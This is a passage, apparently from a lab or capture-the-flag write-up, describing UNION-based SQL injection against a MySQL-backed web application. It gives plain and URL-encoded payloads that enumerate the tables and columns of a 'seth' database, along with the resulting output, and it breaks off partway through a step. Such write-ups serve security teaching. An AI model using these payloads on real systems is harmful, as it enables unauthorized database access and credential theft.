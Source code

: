 	![](images/Pasted%20image%2020220204003336.png)
	```
	available databases [5]:
	[*] information_schema
	[*] mysql
	[*] performance_schema
	[*] phpmyadmin
	[*] seth
	```
5. Determine tables in `seth` database
	```
	Plain Text:
	"UNION SELECT group_concat(table_name),2,3 FROM information_schema.tables WHERE table_schema='seth'-- -
	
	URL Encoded:
	"UNION+SELECT+group_concat(table_name),2,3+FROM+information_schema.tables+WHERE+table_schema='seth'--+-
	```
	![](images/Pasted%20image%2020220204003838.png)
	```
	Database: seth
	[1 Table]
	users
	```
6. Determine columns in `users` table from `seth` database
	```
	Plain Text:
	"UNION SELECT group_concat(column_name),2,3 FROM information_schema.columns WHERE table_name='users'-- -
	